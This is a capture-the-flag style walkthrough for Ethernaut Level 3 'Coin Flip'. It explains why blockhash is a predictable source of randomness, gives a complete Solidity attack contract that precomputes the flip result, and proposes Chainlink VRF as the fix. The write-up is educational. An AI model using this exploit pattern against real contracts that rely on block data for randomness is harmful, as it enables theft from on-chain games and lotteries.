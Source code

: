 ```yaml
---
title: Level 3 - Coin Flip
slug: level-3
published: 05-15-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut3.svg
---
```


## Objectives

1. Correctly guess 10 coin flips in a row.

## Vulnerabilities

### Block data is a bad source of randomness.

Relying on `block.timestamp`, or `blockhash` is a **bad source of randomness that can be exploited**.

In this contract, the logic behind determining the result is available for anyone to use in a hack contract. Thus
anyone can _determine the correct answer_ at the same time as calling the `flip` function.

## Exploit

1. Write and deploy a hack contract similar to the following one:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "CoinFlip.sol";

contract CoinFlipHack {
    CoinFlip target;

    event Log(uint wins, string message);

    constructor(address _targetAddress) {
        target = CoinFlip(_targetAddress);
    }

    function getWins() public view returns(uint) {
        return target.consecutiveWins();
    }

    function cheatFlip() public{
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;
        target.flip(guess);
    }
}
```

2. Call the `cheatFlip` function 10 times in a row to win the game.

## Suggested mitigation

1. Use an oracle like _Chainlink_ for a safer source of randomness.

## Further reading

- SWC-120 - Weak source of randomness Chain Attributes <ExternalLink href={"https://swcregistry.io/docs/SWC-120"} />

- Get a random number by Chainlink <ExternalLink href="https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number" />
